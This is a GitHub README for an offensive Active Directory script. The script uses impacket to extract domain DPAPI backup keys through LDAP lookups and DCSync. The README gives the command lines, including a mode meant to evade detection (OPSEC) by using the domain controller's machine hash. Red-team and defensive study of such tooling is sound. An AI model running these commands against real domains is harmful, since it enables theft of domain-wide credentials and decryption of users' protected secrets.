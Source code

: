 # dcsyncdpapikey

This script dumps the domain backup keys via DRSUAPI (DCSync). The heavy lifting is all done with impacket, so this
needs to be installed. The script extracts the required information from LDAP (objectclass=secret) and calls the
relevant DCSync Operation with the GUID of the secret object.

# Usage

```
# full chain

python3 dcsyncdpapikey.py domain/user:'pw'@target

# just dump GUIDS for backupkey via LDAP with a admin account, useful for OPSEC if you want to dcsync with DC machine hash

python3 dcsyncdpapikey.py domain/user:'pw'@target -ldap-only

# dump key via DCSync with extracted GUID

python3 dcsyncdpapikey.py domain/DC\$@target -hashes :hash -key-only --guid GUID

```



# Credits

@SecureAuthCorp for their Impacket project, which this entire project utilizes to interact with windows services: https://github.com/SecureAuthCorp/impacket
